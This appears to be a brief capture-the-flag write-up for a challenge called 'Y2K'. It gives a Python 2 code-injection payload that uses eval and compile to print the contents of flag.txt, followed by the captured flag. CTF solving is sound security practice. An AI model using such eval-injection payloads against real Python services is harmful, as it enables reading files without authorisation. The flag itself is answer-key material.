 # Y2K

```python
int(eval(compile('print open("flag.txt", "r").readlines()', '<string>', 'exec')) or 0)
```

go brrrrr

## Flag:flag{we\_are\_saved\_from\_py2\_k}

